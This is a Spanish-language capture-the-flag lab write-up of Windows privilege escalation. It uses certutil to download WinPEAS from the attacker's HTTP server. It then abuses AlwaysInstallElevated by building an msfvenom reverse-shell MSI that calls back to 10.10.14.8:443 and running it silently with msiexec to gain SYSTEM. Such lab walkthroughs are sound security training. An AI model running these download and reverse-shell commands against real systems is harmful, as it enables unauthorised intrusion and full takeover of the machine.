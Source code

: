 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
whoami
whoami /priv
whoami /all
```

Aqui no vemos nada de interressante.

```bash
cd c:\
cd PROGRA~1
dir
cd ..
cd PROGRA~2
dir
```

Investigamos un poco pero no vemos nada muy interressante. Decidimos lanzarle un WinPEAS

#### Analysis de vulnerabilidad Privesc con WINPEAS {-}

```bash
cd c:\Windows\Temp
mkdir EEEE
cd EEEE
```

Descargamos el `winpeasx64.exe` desde [https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe).

```bash
cd content
cp /home/s4vitar/Descargas/firefox/winPEASx64.exe .
python3 -m http.server 80
```

Lo descargamos desde la maquina victima y lo lanzamos.

```bash
certutil.exe -f -urlcache -split http://10.10.14.8/winPEASexe.exe winPEAS.exe
winPEAS.exe
```

Vemos algo interressante en Checking AlwaysInstallElevated

```r
knitr::include_graphics("images/love-hklm-hkcu.png")
```

Podemos seguir los passos descripto en el link [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)

1. crear un msi mallicioso con msfvenom

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f msi -o reverse.msi
    ```

1. lo enviamos a la maquina victima con el servidor http de python
1. nos ponemos en escucha por el puerto 443
1. lo ejecutamos desde la maquina victima

    ```bash
    msiexec /quiet /qn /i reverse.msi
    ```

Ya estamos a dentro con el usuario nt authority\system y podemos ver la flag.